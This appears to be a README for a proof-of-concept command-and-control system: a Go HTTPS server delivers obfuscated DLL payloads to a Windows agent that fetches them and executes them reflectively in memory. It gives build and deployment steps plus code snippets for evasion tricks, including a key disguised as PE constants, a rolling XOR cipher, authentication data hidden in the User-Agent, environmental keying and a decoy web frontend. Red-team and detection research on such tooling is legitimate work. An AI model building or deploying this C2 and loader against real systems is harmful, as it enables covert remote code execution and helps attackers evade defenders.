 ## example reflective loader server + agent
A simple C2 proof-of-concept channel highlighting use of a reflective loader agent, plus a rolling key derived from a shared secret and request parameters for obfuscation.
This system consists of two main components:
**C2 Server**: HTTPS server that delivers obfuscated DLL payloads to authenticated clients.
**Reflective Loader Client**: Windows agent that downloads, deobfuscates, and executes DLLs directly in memory without touching disk.

## instructions
### create source file
- Here using dll that has a single explorted function LaunchCalc() that injects + executes shellcode to launch calc.exe
- See ../dll_shellcode_loader/dll_shellcode_loader/dll_calc.dll for an example
- Copy dll to ./server as `*.bin` format

### generate self-signed certs
- And place in `/server/certs`
```shell
# Generate private key
openssl genrsa -out server.key 2048

# Generate self-signed certificate 
openssl req -new -x509 -key server.key -out server.crt -days 365 -subj "/CN=update-server.local"
```

### configure server settings
- See `./server/config.json`

### run/compile server
- See `server/main.go`
- Use go build or go run

### compile agent, transfer to target, execute
- Compile agent for Windows
```shell
GOOS=windows GOARCH=amd64 go build
```
- Transfer to target, execute.
- Verified to work on Win 11 x64


## Server Overview
- Disguised Key Derivation: The encryption key is constructed from constants that appear to be legitimate PE file format values, making static analysis more difficult
- Parameter Extraction: Client parameters are extracted from standard User-Agent headers, blending C2 traffic with normal HTTP
- Environmental Keying: Authentication incorporates system-specific information, ensuring payloads only execute in intended environments
- Rolling Encryption: The XOR key changes for each byte position, preventing pattern analysis
- Plausible Web Server: Provides a convincing web frontend for non-targeted visits
- Authentication: Validates clients through timestamp and environmental parameters

## Agent Overview
- Memory-Only Execution: Loads and executes DLLs entirely in memory without writing to disk
- Environmental ID: Generates unique but predictable client IDs from system properties 
- Custom User-Agent: Embeds authentication parameters in standard HTTP headers 
- Function Resolution: Dynamically resolves and calls exported functions from the loaded DLL
- Shared Secret Recovery: Reconstructs the same obfuscation key as the server using common parameters

Manual PE Loading: Implements the entire Windows PE loader in custom code, including:
- PE header parsing and validation
- Memory allocation at preferred base address
- Section mapping with correct permissions
- Import Address Table (IAT) resolution
- Base relocations when needed
- Proper DllMain calling convention


## breakdowns
### Obfuscated Key Derivation
```go
// These appear to be PE file format constants but are actually our obfuscated key components
const (
    SECTION_ALIGN_REQUIRED    = 0x53616D70  // Actually "Samp" in ASCII
    FILE_ALIGN_MINIMAL        = 0x6C652D6B  // Actually "le-k" in ASCII
    PE_BASE_ALIGNMENT         = 0x65792D76  // Actually "ey-v" in ASCII
    IMAGE_SUBSYSTEM_ALIGNMENT = 0x616C7565  // Actually "alue" in ASCII
)
```
These constants appear to be legitimate PE format values but actually encode the string "Sample-key-value". The values are retrieved through functions that look like they're performing PE validation operations but are actually constructing the key.

### Rolling XOR Encryption
The payload encryption uses a rolling XOR key that incorporates both the shared secret and the byte position:

```go
for i := 0; i < len(data); i++ {
    // Calculate rolling key byte: combines key byte with position
    keyByte := keyBytes[i%keyLen] ^ byte(i&0xFF)
    
    // XOR the data byte with the rolling key byte
    result[i] = data[i] ^ keyByte
}
```
This prevents identical plaintext patterns from appearing as patterns in the ciphertext, making cryptanalysis more difficult.

## Authentication Parameters fronting as User-Agent strings
The client embeds authentication parameters in the User-Agent string:
```go
customUA := fmt.Sprintf("Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 "+
    "(KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36 rv:%s-%s",
    timestamp, clientID)
```
This makes the C2 traffic blend with regular web browsing, as the parameters appear to be legitimate browser version information.

### Environmental Keying
The client generates its ID using hardware-specific information that persists across reboots:
```go
// Get volume serial number and hostname
var volumeSerial uint32
windows.GetVolumeInformation(
    windows.StringToUTF16Ptr("C:\\"),
    &volumeName[0],
    uint32(len(volumeName)),
    &volumeSerial,
    nil, nil, nil, 0,
)

// Format: <first 5 chars of hostname>-<volume serial>
clientID := fmt.Sprintf("%s-%x", shortName, volumeSerial)
```

###  In-Memory PE Loading Process
The reflective loader parses and loads the DLL manually using these steps:

1. Parse PE Headers: Extract information about sections, imports, exports, and entry points
2. Allocate Memory: Request executable memory at the DLL's preferred base address
3. Map Sections: Copy each section to its correct relative virtual address (RVA)
4. Process Relocations: Adjust addresses if the DLL couldn't load at its preferred base
5. Resolve Imports: Find and link all imported functions from other DLLs
6. Call DllMain: Initialize the DLL with DLL_PROCESS_ATTACH
7. Find Exports: Locate the target function to execute
8. Execute Function: Call the exported function directly in memory